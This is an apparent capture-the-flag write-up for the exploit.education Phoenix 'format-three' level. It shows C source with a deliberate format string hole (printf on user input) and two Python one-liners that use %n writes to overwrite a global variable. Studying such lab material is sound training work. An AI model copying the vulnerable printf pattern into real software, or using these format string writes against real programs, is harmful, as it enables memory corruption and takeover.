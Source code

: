 # Format Three

## Code

```
/*
 * phoenix/format-three, by https://exploit.education
 *
 * Can you change the "changeme" variable to a precise value?
 *
 * How do you fix a cracked pumpkin? With a pumpkin patch.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int changeme;

void bounce(char *str) {
  printf(str);
}

int main(int argc, char **argv) {
  char buf[4096];
  printf("%s\n", BANNER);

  if (read(0, buf, sizeof(buf) - 1) <= 0) {
    exit(EXIT_FAILURE);
  }

  bounce(buf);

  if (changeme == 0x64457845) {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  } else {
    printf(
        "Better luck next time - got 0x%08x, wanted 0x64457845!\n", changeme);
  }

  exit(0);
}
```

## Solution
First we need to find the address of changeme, using objdump and searching for the compare. it is at "0x8049844". then with this script we will rewrite the content of the variable with the correct value (0x64457845):

```
python -c 'import struct; print(struct.pack("<I", 0x8049844) + "JUNK" + struct.pack("<I", 0x8049845) + "JUNK" + struct.pack("<I", 0x8049846) + "JUNK" + struct.pack("<I", 0x8049847) + "%x"*10 + "%244x" + "%n" + "%51x" + "%n" + "%205x" + "%n" + "%31x" + "%n")' | ./format-three
```

Another solution will be write 2 byte at a time:
```
python -c 'import struct; print(struct.pack("<I", 0x8049844) + "JUNK" + struct.pack("<I", 0x8049846) + "%x"*10 + "%30724x" + "%n" + "%60416x" + "%n")' | ./format-three
```
